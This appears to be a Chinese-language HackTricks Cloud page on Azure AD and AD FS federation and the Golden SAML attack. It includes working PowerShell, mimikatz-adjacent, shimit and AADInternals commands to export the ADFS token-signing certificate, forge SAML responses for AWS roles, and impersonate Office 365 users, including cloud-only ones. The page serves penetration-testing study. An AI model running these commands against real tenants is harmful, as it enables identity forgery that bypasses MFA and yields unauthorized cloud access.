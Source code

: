# Az - Federation

{% hint style="success" %}
学习与实践 AWS 黑客技术：<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks 培训 AWS 红队专家 (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
学习与实践 GCP 黑客技术：<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks 培训 GCP 红队专家 (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看 [**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**Telegram 群组**](https://t.me/peass) 或 **关注** 我们的 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub 仓库提交 PR 分享黑客技巧。

</details>
{% endhint %}

## 基本信息

[来自文档：](https://learn.microsoft.com/en-us/entra/identity/hybrid/connect/whatis-fed)**联邦**是建立了**信任**的一组**域**。信任的级别可能有所不同，但通常包括**身份验证**，几乎总是包括**授权**。一个典型的联邦可能包括一组已建立**信任**的**组织**，以便**共享访问**一组资源。

您可以将**本地**环境与 **Azure AD** 进行**联邦**，并使用此联邦进行身份验证和授权。此登录方法确保所有用户**身份验证发生在本地**。此方法允许管理员实施更严格的访问控制。与 **AD FS** 和 PingFederate 的联邦是可用的。

<figure><img src="../../../../.gitbook/assets/image (154).png" alt=""><figcaption></figcaption></figure>

基本上，在联邦中，所有**身份验证**发生在**本地**环境中，用户在所有受信任的环境中体验单点登录（SSO）。因此，用户可以使用他们的**本地凭据**访问**云**应用程序。

**安全断言标记语言 (SAML)** 用于在提供者之间**交换**所有身份验证和授权**信息**。

在任何联邦设置中，有三个参与方：

* 用户或客户端
* 身份提供者 (IdP)
* 服务提供者 (SP)

（图片来自 https://www.cyberark.com/resources/threat-research-blog/golden-saml-newly-discovered-attack-technique-forges-authentication-to-cloud-apps）

<figure><img src="../../../../.gitbook/assets/image (121).png" alt=""><figcaption></figcaption></figure>

1. 最初，用户访问一个应用程序（服务提供者或 SP，例如 AWS 控制台或 vSphere Web 客户端）。根据具体实现，此步骤可能会被绕过，直接将客户端引导到 IdP（身份提供者）。
2. 随后，SP 确定适当的 IdP（例如，AD FS，Okta）进行用户身份验证。然后，它构建一个 SAML（安全断言标记语言）AuthnRequest，并将客户端重定向到所选的 IdP。
3. IdP 接管，进行用户身份验证。身份验证后，IdP 制定一个 SAMLResponse，并通过用户转发给 SP。
4. 最后，SP 评估 SAMLResponse。如果成功验证，表明与 IdP 之间存在信任关系，则用户被授予访问权限。这标志着登录过程的完成，允许用户使用该服务。

**如果您想了解更多关于 SAML 身份验证和常见攻击的信息，请访问：**

{% embed url="https://book.hacktricks.xyz/pentesting-web/saml-attacks" %}

## 侧向移动

* AD FS 是基于声明的身份模型。
* “..声明只是关于用户的简单语句（例如，姓名、身份、组），主要用于授权访问位于互联网上任何地方的基于声明的应用程序。”
* 用户的声明写入 SAML 令牌中，然后由 IdP 签名以提供机密性。
* 用户通过 ImmutableID 进行识别。它是全局唯一的，并存储在 Azure AD 中。
* ImmutableID 存储在本地作为 ms-DS-ConsistencyGuid，供用户使用，和/或可以从用户的 GUID 派生。
* 更多信息请参见 [https://learn.microsoft.com/en-us/windows-server/identity/ad-fs/technical-reference/the-role-of-claims](https://learn.microsoft.com/en-us/windows-server/identity/ad-fs/technical-reference/the-role-of-claims)

**黄金 SAML 攻击：**

* 在 ADFS 中，SAML 响应由令牌签名证书签名。
* 如果证书被泄露，则可以作为任何同步到 Azure AD 的用户进行身份验证！
* 就像我们的 PTA 滥用一样，用户的密码更改或 MFA 不会产生任何影响，因为我们伪造了身份验证响应。
* 可以从 AD FS 服务器提取证书，具有 DA 权限，然后可以从任何连接到互联网的机器上使用。
* 更多信息请参见 [https://www.cyberark.com/resources/threat-research-blog/golden-saml-newly-discovered-attack-technique-forges-authentication-to-cloud-apps](https://www.cyberark.com/resources/threat-research-blog/golden-saml-newly-discovered-attack-technique-forges-authentication-to-cloud-apps)

### 黄金 SAML

**身份提供者 (IdP)** 生成 **SAMLResponse** 以授权用户登录的过程至关重要。根据 IdP 的具体实现，**响应**可能会使用 **IdP 的私钥**进行**签名**或**加密**。此过程使 **服务提供者 (SP)** 能够确认 SAMLResponse 的真实性，确保它确实是由受信任的 IdP 发出的。

可以与 [黄金票证攻击](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/golden-ticket) 进行类比，其中用于验证用户身份和权限的密钥（黄金票证的 KRBTGT，黄金 SAML 的令牌签名私钥）可以被操纵以**伪造身份验证对象**（TGT 或 SAMLResponse）。这允许冒充任何用户，授予对 SP 的未授权访问。

黄金 SAML 提供某些优势：

* 它们可以**远程创建**，无需成为相关域或联邦的一部分。
* 即使启用**双因素身份验证 (2FA)**，它们仍然有效。
* 令牌签名**私钥不会自动续订**。
* **更改用户的密码不会使**已生成的 SAML 无效。

#### AWS + AD FS + 黄金 SAML

[活动目录联邦服务 (AD FS)](https://docs.microsoft.com/en-us/previous-versions/windows/server-2008/bb897402\(v=msdn.10\)) 是一项 Microsoft 服务，促进受信任商业伙伴之间**身份信息的安全交换**（联邦）。它基本上允许域服务与联邦内的其他服务提供者共享用户身份。

由于 AWS 信任被泄露的域（在联邦中），可以利用此漏洞来潜在地**获取 AWS 环境中的任何权限**。该攻击需要**用于签名 SAML 对象的私钥**，类似于在黄金票证攻击中需要 KRBTGT。访问 AD FS 用户帐户足以获取此私钥。

执行黄金 SAML 攻击的要求包括：

* **令牌签名私钥**
* **IdP 公共证书**
* **IdP 名称**
* **角色名称（要承担的角色）**
* 域\用户名
* AWS 中的角色会话名称
* 亚马逊账户 ID

_只有加粗的项目是强制性的。其他项目可以根据需要填写。_

要获取**私钥**，需要访问**AD FS 用户帐户**。从那里，可以使用 [mimikatz](https://github.com/gentilkiwi/mimikatz) 等工具从个人存储中**导出私钥**。要收集其他所需信息，可以使用 Microsoft.Adfs.Powershell snapin，如下所示，确保您以 ADFS 用户身份登录：
```powershell
# From an "AD FS" session
# After having exported the key with mimikatz

# ADFS Public Certificate
[System.Convert]::ToBase64String($cer.rawdata)

# IdP Name
(Get-ADFSProperties).Identifier.AbsoluteUri

# Role Name
(Get-ADFSRelyingPartyTrust).IssuanceTransformRule
```
使用所有信息，可以忘记一个有效的 SAMLResponse，作为您想要冒充的用户，使用 [**shimit**](https://github.com/cyberark/shimit)**:**

{% code overflow="wrap" %}
```bash
# Apply session for AWS cli
python .\shimit.py -idp http://adfs.lab.local/adfs/services/trust -pk key_file -c cert_file -u domain\admin -n admin@domain.com -r ADFS-admin -r ADFS-monitor -id 123456789012
# idp - Identity Provider URL e.g. http://server.domain.com/adfs/services/trust
# pk - Private key file full path (pem format)
# c - Certificate file full path (pem format)
# u - User and domain name e.g. domain\username (use \ or quotes in *nix)
# n - Session name in AWS
# r - Desired roles in AWS. Supports Multiple roles, the first one specified will be assumed.
# id - AWS account id e.g. 123456789012

# Save SAMLResponse to file
python .\shimit.py -idp http://adfs.lab.local/adfs/services/trust -pk key_file -c cert_file -u domain\admin -n admin@domain.com -r ADFS-admin -r ADFS-monitor -id 123456789012 -o saml_response.xml
```
{% endcode %}

<figure><img src="../../../../.gitbook/assets/image (128).png" alt=""><figcaption></figcaption></figure>

### 本地 -> 云
```powershell
# With a domain user you can get the ImmutableID of the target user
[System.Convert]::ToBase64String((Get-ADUser -Identity <username> | select -ExpandProperty ObjectGUID).tobytearray())

# On AD FS server execute as administrator
Get-AdfsProperties | select identifier

# When setting up the AD FS using Azure AD Connect, there is a difference between IssueURI on ADFS server and Azure AD.
# You need to use the one from AzureAD.
# Therefore, check the IssuerURI from Azure AD too (Use MSOL module and need GA privs)
Get-MsolDomainFederationSettings -DomainName deffin.com | select IssuerUri

# Extract the ADFS token signing certificate from the ADFS server using AADInternals
Export-AADIntADFSSigningCertificate

# Impersonate a user to to access cloud apps
Open-AADIntOffice365Portal -ImmutableID v1pOC7Pz8kaT6JWtThJKRQ== -Issuer http://deffin.com/adfs/services/trust -PfxFileName C:\users\adfsadmin\Documents\ADFSSigningCertificate.pfx -Verbose
```
也可以为仅云用户创建 ImmutableID 并冒充他们。
```powershell
# Create a realistic ImmutableID and set it for a cloud only user
[System.Convert]::ToBase64String((New-Guid).tobytearray())
Set-AADIntAzureADObject -CloudAnchor "User_19e466c5-d938-1293-5967-c39488bca87e" -SourceAnchor "aodilmsic30fugCUgHxsnK=="

# Extract the ADFS token signing certificate from the ADFS server using AADInternals
Export-AADIntADFSSigningCertificate

# Impersonate the user
Open-AADIntOffice365Portal -ImmutableID "aodilmsic30fugCUgHxsnK==" -Issuer http://deffin.com/adfs/services/trust -PfxFileName C:\users\adfsadmin\Desktop\ADFSSigningCertificate.pfx -Verbose
```
## 参考文献

* [https://learn.microsoft.com/en-us/azure/active-directory/hybrid/whatis-fed](https://learn.microsoft.com/en-us/azure/active-directory/hybrid/whatis-fed)
* [https://www.cyberark.com/resources/threat-research-blog/golden-saml-newly-discovered-attack-technique-forges-authentication-to-cloud-apps](https://www.cyberark.com/resources/threat-research-blog/golden-saml-newly-discovered-attack-technique-forges-authentication-to-cloud-apps)

{% hint style="success" %}
学习与实践 AWS 黑客技术：<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks 培训 AWS 红队专家 (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
学习与实践 GCP 黑客技术：<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks 培训 GCP 红队专家 (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看 [**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**Telegram 群组**](https://t.me/peass) 或 **在** **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)** 上关注我们。**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub 仓库提交 PR 来分享黑客技巧。

</details>
{% endhint %}
